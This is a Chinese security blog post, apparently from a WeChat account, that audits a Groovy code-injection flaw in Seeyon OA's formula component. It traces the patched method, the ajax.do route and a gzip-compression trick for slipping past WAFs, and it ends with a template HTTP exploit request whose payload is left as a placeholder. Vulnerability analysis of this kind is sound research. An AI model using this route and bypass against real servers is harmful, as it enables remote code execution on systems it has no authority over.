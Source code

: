致远OA代码审计系列七-公式组件代码执行漏洞分析
========================

原创 作者:archive 公号:安全回忆录 发布时间:2023-12-06 0:00 发表于北京

原文地址：[致远OA代码审计系列七-公式组件代码执行漏洞分析](https://mp.weixin.qq.com/s/RE_KSqh0Y-X8AzM36EJ0IA)

**漏洞描述:**

致远OA登录后用户可通过公式组件功能，该功能方法没有对用户参数进行任何过滤检测,也没有使用Groovy相关安全机制, 导致存在Groovy代码注入漏洞。

******适用版本:******

适配版本范围：A6/A8 V6.1至V8.1全系列版本。

**漏洞分析:**

根据致远官方补丁,发现在ActionRunner的getConditionValue中增加了log方法进行安全校验。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMvFuFQ2XHWXSd8p61xQPJRjyYkJ17yWceIM7icIGkAWHr50uL0AibRstrENnwkclyDyrrvW5ODhibklQ/640?wx_fmt=png&from=appmsg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMvFuFQ2XHWXSd8p61xQPJRjKjHx9ibw28oibuicQxx9yTqu2ic1ibDn75dP4mzX60yicQtwDMQetDowoicyw/640?wx_fmt=png&from=appmsg)

不难发现getConditionValue方法最终会通过Groovy执行相关代码公式, 未对参数进行相关过滤, 存在Groovy代码执行漏洞。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMvFuFQ2XHWXSd8p61xQPJRjM80srGqibAQzPCUEicqccbxEWd438PHDGRgmiaab5icEiadI0w5j6qsNP7Q/640?wx_fmt=png&from=appmsg)

通过全局搜索ActionRunner.getConditionValue关键字, 发现在WorkflowInnerApiManagerImpl中存在3处调用,这里采用getConditionValue方法。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMvFuFQ2XHWXSd8p61xQPJRjbWpyQPoA5zj9nxHX5hoWXjNAr4sBT7cHgbSIXibrrjCf4trltwzPZTg/640?wx_fmt=png&from=appmsg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMvFuFQ2XHWXSd8p61xQPJRjqSSqaS82uZZ989bIbnrUXtGTTVSh5rcloBGdQGoadcnVicA0Lia4symQ/640?wx_fmt=png&from=appmsg)

通过ajax.do路由直接访问, requestCompress参数对arguments内容进行加密, 绕过waf等检测。

```cs
/seeyon/ajax.do;Jsessionid=a?method=ajaxAction&managerName=workflowInnerApiManager&requestCompress=gzip
```

最终利用POC  

```http
POST /seeyon/ajax.do;Jsessionid=a?method=ajaxAction&managerName=workflowInnerApiManager&requestCompress=gzip HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 617
Host: 192.168.246.4
Connection: close
User-Agent: Apache-HttpClient/4.5.13 (Java/1.8.0_321)
Cookie: JSESSIONID=4A751D0570EA20C1C0FFFFDEE55D0F46; login_locale=zh_CN
Accept-Encoding: gzip, deflate


managerMethod=getConditionValue&arguments=POC
```

**总结:**

该漏洞由于公式组件功能未对参数进行过滤检测导致, 致远官方于2022年4月11日发布补丁修复该漏洞,采用的黑名单方式进行修复。